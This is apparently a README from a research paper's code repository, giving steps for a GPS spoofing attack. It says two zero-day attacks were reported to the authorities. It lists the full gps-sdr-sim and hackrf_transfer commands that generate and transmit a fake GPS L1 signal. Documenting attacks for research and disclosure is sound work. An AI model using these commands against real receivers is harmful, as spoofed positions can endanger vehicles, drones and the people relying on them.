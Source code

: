 # Attack cases mentioned in the paper
Code for conducting attacks mentioned in the paper. We have 2 zero-day attacks which have been reported to respective authorities as well. 

## GPS Spoofing
You need a software-defined radio like HACKRF which could simulate GPS L1 signal. The GPS position simulator used in <a href="https://github.com/osqzss/gps-sdr-sim" target="_blank"> this project</a>.


### How to execute it?
1) You need to specify the GPS satellite constellation through a GPS broadcast ephemeris file. The daily GPS broadcast ephemeris file (brdc) is a merge of the individual site navigation files into one. The archive for the daily file is:ftp://cddis.gsfc.nasa.gov/gnss/data/daily/

2) Find the latest brdc file for navigation data creation

3) When you use brdc3540.14n as an ephemeris file, you can generate GPS messages the command in the below. 
```bash
./gps-sdr-sim -b 8 -e brdc3540.14n -l 31.286502,121.032669,100
```

4) gpssim.bin will be created and the file needs to transferred

5) Spoof the GPS messages 
```bash
hackrf_transfer -t gpssim.bin -f 1575420000 -s 2600000 -a 1 -x 0
```
